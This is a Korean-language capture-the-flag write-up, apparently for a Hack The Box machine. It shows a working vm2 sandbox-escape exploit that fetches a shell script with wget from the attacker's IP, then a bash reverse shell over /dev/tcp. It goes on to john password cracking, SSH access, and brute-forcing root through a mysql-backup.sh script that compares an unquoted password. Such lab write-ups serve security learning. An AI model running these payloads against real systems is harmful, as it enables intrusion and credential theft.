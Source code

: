 ### 초기
- Node.js code를 온라인에서 실행하는 샌드 박스 프로그램이 있는 것을 확인
- 해당 웹 서버에는 제한 사항이 있음(사용 불가 기능)
  - fs
  - 자식 프로세스

- 3.9.16 이하 버전 vm2 취약점이 있는 것을 알 수 있었다.
- 순서
  - 에러 객체에 오버라이딩 함
  - 에러를 발생시켜 오버라이딩한 내용을 실행
  - access objects created outside the sandbox and execute arbitrary code
<br>
- 해당 코드를 사용하여 실행한다.
```
const {VM}=require("vm2");
const vm=new VM();

const code=`
const customInspectSymbol=Symbol.for('nodejs.util.inspect.custom');

obj={

[customInspectSymbol]: (depth, opt, inspect)=>{
inspect.constructor('return process')().mainModule.require('child_process').execSync('wget <내 ip>:80/shell.sh');
}, valueOf: undefined,
constructor: undefined,
}
WebAssembly.compileStreaming(obj).catch(()=>{});
`;
vm.run(code);
```
- execSync('')안에 실행할 코드를 넣는다.
- python3 -m http.server 80 실행 후 wget http://10.10.14.33:80/shell.sh 를 넣어 쉘을 다운로드 시킨다.<br>
### shell.sh에
### #!/bin/bash
### sh -i >& /dev/tcp/10.10.14.33/4444 0>&1 를 넣고 원격으로 실행 시킨다.
- chmod +x shell.sh, ./shell.sh 를 순서대로 넣어 reverse shell을 획득한다.

- 내부에서 얻은 결과
  - joshua 폴더로 이동할 수 없었다.
  - /var/www/contact/tickets.db 파일에서 pw 해시 값을 얻을 수 있었다.
- john pw.txt --wordlist=/usr/share/wordlists/rockyou.txt로 비밀번호 크랙을 시도한다.
- spongebob1 값을 찾았고 이를 사용하여 ssh joshua@10.10.11.239로 접속을 시도한다.
<br>
### ssh로 연결 한 후
- sudo -l로 sudo 권한으로 실행할 수 있는 파일인 mysql-backup.sh를 찾을 수 있다.
  - mysql-backup.sh: mysql 백업 스크립트
  - sudo -l: 시스템의 현재 사용자 또는 지정된 사용자에게 부여 된 권한을 나열
- mysql-backup.sh
  - 스크립트 파일안에 pw를 검증하는 코드가 있는데 DB_PASS==USER_PASS에서 USER_PASS가 " " 안에 없을 경우 문자열로 인식하지 않고 pattern matching을 사용한다
  - 한 글자씩 비교하고 정규표현식으로 *를 넣어 패스워드를 비교한다
  - crack1.py를 만들고 python3 crack1.py로 실행하여 pw를 찾는다
  - 찾은 pw로 su root를 실행하여 root.txt를 찾는다<br>
### 결론
- nodejs 코드 실행기에서 샌드박스 이스케이프를 활용하여 코드를 실행
- 취약한 mysql 백업 스크립트에서 root 패스워드 탈취
- bash에서 실행되는 db.sh이므로 brute force에 취약했음
- 웹 앱, db, 스크립트 광범위한 분야에서 보호해야 한다
